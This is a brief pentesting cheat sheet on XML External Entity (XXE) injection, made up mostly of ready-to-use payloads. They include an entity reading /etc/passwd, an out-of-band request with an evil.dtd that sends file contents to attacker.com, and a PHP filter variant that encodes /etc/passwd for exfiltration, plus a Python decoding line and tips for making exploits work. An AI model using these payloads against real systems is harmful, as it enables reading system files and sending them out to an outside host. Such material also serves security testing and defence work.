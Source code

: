 # XXE

```markup
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<Content>&xxe;</Content>
</root>
```

Ensure that regardless of the format of your xml files, that there is only one root node.  Several parsers will refuse to validate the file and will error in the event of multiple root nodes.  As with all exploits, this isn't always the case, but if your exploit fails, this would be a good thing to ensure.

These can be applicable for XML endpoints, of course, but also JSON endpoints due to legacy code.  The article [Playing with Content-Type – XXE on JSON Endpoints](https://blog.netspi.com/playing-content-type-xxe-json-endpoints/) covers this very well.

## Out-of-band XXE

```markup
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "file:///etc/lsb-release">
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>
```

#### evil.dtd

```markup
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;
```

### PHP Filters

```markup
<!ENTITY % data SYSTEM " php://filter/read=zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

Result can be decoded using Python:

```python
zlib.decompress(base64.b64decode(req), -15) 
```

## References

[Playing with Content-Type – XXE on JSON Endpoints](https://blog.netspi.com/playing-content-type-xxe-json-endpoints/)  
[Acunetix - Out-of-band XML External Entity \(OOB-XXE\)](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)  
[XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)  
[PayloadAllTheThings - XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injections)  
[xxe\_oob\_exfil.py](https://gist.github.com/Reboare/49b309711222254eaf970e90388a7bdf)



